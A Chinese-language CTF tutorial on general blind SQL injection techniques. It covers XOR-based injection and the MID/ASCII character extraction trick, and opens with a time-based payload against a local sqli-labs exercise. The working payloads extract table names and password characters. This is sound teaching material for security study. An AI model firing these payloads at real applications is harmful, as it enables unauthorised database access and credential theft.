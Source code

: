 <http://127.0.0.1/Range/sqli-labs-master/Less-62/?id=1')and> If(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='challenges'),1,1))=79,0,sleep(10))--+

 

 

 

# CTF中几种通用的sql盲注手法和注入的一些tips

## 0x01 XOR注入

因为这种方法利用了异或符号，所以给它取名为xor注入

1、基本注入payload

```
admin'^(ascii(mid((password)from(i)))>j)^'1'='1'%23
或者
admin'^(ascii(mid((password)**from**(i)**for**(1)))>j)^'1'='1'%23
```

我们来分析一下这个语句的格式：

首先我们先根据^符号来分割开语句：

```
admin'
ascii(mid((password)from(i)))>j
'1'='1'%23
```



最前面和最后面的语句都固定为真（逻辑结果都为1），只有中间的语句不确定真假

**那么整个payload的逻辑结果都由中间的语句决定**，我们就可以用这个特性来判断盲注的结果了

```
0^1^0 --> 1 语句返回为真
0^0^0 --> 0 语句返回为假
```

这里mid函数的使用方法：

正常的用法如下，对于str字符串，从pos作为索引值位置开始，返回截取len长度的子字符串

MID(str,**pos**,len)

这里的用法是，**from(1)表示从第一个位置开始截取剩下的字符串，for(1)表示从改位置起一次就截取一个字符**

```
mid((str)from(i))
mid((str)from(i)for(1))
```



看下图的查询结果应该就知道用法了：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0axxtlyudj20ls0din6m.jpg)
